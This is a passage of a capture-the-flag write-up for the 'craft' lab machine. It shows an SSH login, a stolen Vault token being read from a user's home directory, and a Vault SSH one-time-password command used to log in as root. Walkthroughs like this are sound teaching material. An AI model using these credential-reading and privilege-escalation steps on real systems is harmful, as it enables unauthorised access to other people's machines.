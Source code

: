 ```
   |\_|__|__|_/|
    \_________/



Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gilfoyle@craft:~$ ls
user.txt
gilfoyle@craft:~$ cat user.txt
bbf4b0ca...
```

## Privesc

I saw from the `craft-infra` repo that Vault is installed and I see that Gilfoyle has a vault token in its home directory:

```
gilfoyle@craft:~$ ls -la
total 36
drwx------ 4 gilfoyle gilfoyle 4096 Feb  9 22:46 .
drwxr-xr-x 3 root     root     4096 Feb  9 10:46 ..
-rw-r--r-- 1 gilfoyle gilfoyle  634 Feb  9 22:41 .bashrc
drwx------ 3 gilfoyle gilfoyle 4096 Feb  9 03:14 .config
-rw-r--r-- 1 gilfoyle gilfoyle  148 Feb  8 21:52 .profile
drwx------ 2 gilfoyle gilfoyle 4096 Feb  9 22:41 .ssh
-r-------- 1 gilfoyle gilfoyle   33 Feb  9 22:46 user.txt
-rw------- 1 gilfoyle gilfoyle   36 Feb  9 00:26 .vault-token
-rw------- 1 gilfoyle gilfoyle 2546 Feb  9 22:38 .viminfo

gilfoyle@craft:~$ cat .vault-token
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
```

The `secrets.sh` config in the repo contains the following:

```
vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

I can get an OTP user token for root and log in using `vault ssh -mode=otp -role=root_otp root@10.10.10.110`:
